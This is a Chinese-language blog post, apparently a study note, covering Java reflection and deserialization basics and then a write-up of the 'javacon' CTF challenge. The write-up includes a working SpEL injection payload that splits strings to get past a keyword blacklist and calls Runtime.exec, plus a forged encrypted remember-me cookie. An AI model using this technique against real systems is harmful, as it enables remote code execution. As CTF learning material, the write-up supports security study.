

## 反射相关概念

引用p牛的一句话

> 一段代码，改变其中的变量，将会导致这段代码产⽣生功能性的变化，我称之为动态特性

PHP本身有很多的动态特性，java虽然没有那么灵活，但是java的反射赋予了Java一些动态地特性


我在学习java的时候，一直不太清楚java是如何获取变量的类型的，python和JavaScript都可以用`type`来分清楚这个变量的类型

后来才知道`getClass`这个方法，可以返回变量的类型

比如

```
System.out.println("a".getClass());

输出class java.lang.String

System.out.println(new Integer(1).getClass());

输出class java.lang.Integer

System.out.println(Runtime.getRuntime().getClass());
输出 class java.lang.Runtime
```

这样就知道了这个对象属于哪个类


其实我们不止可以获得对象属于哪个类，我们还可以调用这个对象所属的类的方法

来看一个最常用的payload

```java
Class clazz = Class.forName("java.lang.Runtime");
clazz.getMethod("exec", String.class).invoke(clazz.getMethod("getRuntime").invoke(clazz), "calc");        
```

1. 首先获取`java.lang.Runtime`的类型`类`
2. 然后获取`java.lang.Runtime`的方法`exec`，由于`exec`方法有重载，所以要指明参数类型`String.class`
3. 之后通过`invoke`调用，第一个参数是`Runtime`的对象，第二个参数是`calc`

invoke调用时候的规定如下：

1. 如果是一个普通方法，第一个参数是类对象
2. 如果是一个静态方法，第一个参数是类

`java.lang.Runtime`的构造函数是私有的，也就是说不能通过实例化来产生其对象，必须通过调用`java.lang.Runtime.getRuntime`方法来得到一个对象

同时`getRuntime`方法是静态方法，所以`invoke`的第一个参数是类对象，没有其他的参数了

单例模式是因为有些操作只需要做一次就够了，比如建立数据库连接之类的

故其实中还有一次反射调用

1. 获取`java.lang.Runtime`的方法`getRuntime`
2. 通过invoke调用，产生一个`Runtime`的实例对象

## 反序列化

java的反序列化是通过`ObjectOutputStream`和`ObjectInputStream`两个类来实现的，同时要序列化的类必须实现`Serializable`接口

与PHP类似，Java在序列化一个对象的时候会调用`writeObject`方法，在反序列化一个对象的时候会调用`readObject`方法


## code-breaking——javacon

一个spring框架写的登陆界面，用户名和密码都是admin，有一个remember me可以勾选

`application.yml`中有一些相关的设置

```
keywords:
  blacklist:
    - java.+lang
    - Runtime
    - exec.*\(
user:
  username: admin
  password: admin
  rememberMeKey: c0dehack1nghere1
```

`keywords`是我们之后要绕过的

仔细分析代码，其中有存在一处类似模板渲染的语句

```java
        ParserContext parserContext = new TemplateParserContext();
        Expression exp = parser.parseExpression(val, parserContext);
        SmallEvaluationContext evaluationContext = new SmallEvaluationContext();
        return exp.getValue(evaluationContext).toString();
```

其实就是与其跟黑名单做正则匹配，如果匹配成功则抛出`HttpStatus.FORBIDDEN`，如果没有匹配到则进行正常流程，在`SmallEvaluationContext`进行SpEL表达式解析。注意，这里就存在El表达式注入的问题了。

这一处位于`getAdvanceValue`函数中，调用它的是这里：

```java
    @GetMapping
    public String admin(@CookieValue(value = "remember-me", required = false) String rememberMeValue,
                        HttpSession session,
                        Model model) {
        if (rememberMeValue != null && !rememberMeValue.equals("")) {
            String username = userConfig.decryptRememberMe(rememberMeValue);
            if (username != null) {
                session.setAttribute("username", username);
            }
        }

        Object username = session.getAttribute("username");
        if(username == null || username.toString().equals("")) {
            return "redirect:/login";
        }

        model.addAttribute("name", getAdvanceValue(username.toString()));
        return "hello";
    }
```

这里相当于是admin的管理界面，首先会检查`rememberMeValue`的值，并且尝试去解密其中的用户名，同时加入到`session`中，之后执行`model.addAttribute("name", getAdvanceValue(username.toString()));`

那么这里的关键就是`cookie`中的rememberMeValue，由于我们已经知道了加密的算法和密钥(代码都是直接给的)，那么就可以通过伪造`rememberMeValue`来达到rce

首先需要一条java的反射链，因为要绕过一些关键字：

```java
String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("ex"+"ec",String.class).invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime").getMethod("getRu"+"ntime").invoke(String.class.getClass().forName("java.l"+"ang.Ru"+"ntime")),"calc")
```

之后要将其构造成Spel表达式，就是增加一个`T()`

先本地测试弹一个计算器

```
System.out.println(Encryptor.encrypt("c0dehack1nghere1", "0123456789abcdef", "#{T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[])).invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"calc\"})}"));
```

生成的payload

```
bvik1nAmjEAllRdn5UKWGC9uCj0hW0P2B6k1uigkS1acKxD9b_xNi-x09UGgjU1DvDEI2GGk4Jn0ApM_cSVc0G7kGnvvtewNRVsfqFUCR0fMAPqbj6yqACW6XVtt8Fp1nBwebKd7pkYSZCv6Yj3X7H-0-8HDV6F3sS3yWHUQEBPAyiNmKfkSKUV5VVlNdo16Nij8YX8HvKdeMHJ7_5Sdjfmfq3dKPeUOivMyVp_GdEkffgly4YX4eWCOzQRr4uQgodsKw2pC9N9udnw3Fz7O5ZhzmoYttjLubBowMtkF-Q6HHCvBrK9SWCzRQXC6jqYX_XeqyZuDreUixnpXpzlN9Gj_AWy8DB8Dxea8atf2wr8=
```

之后登陆再替换掉cookie



当然后续还有其他的利用过程去读flag,就不一一细说了

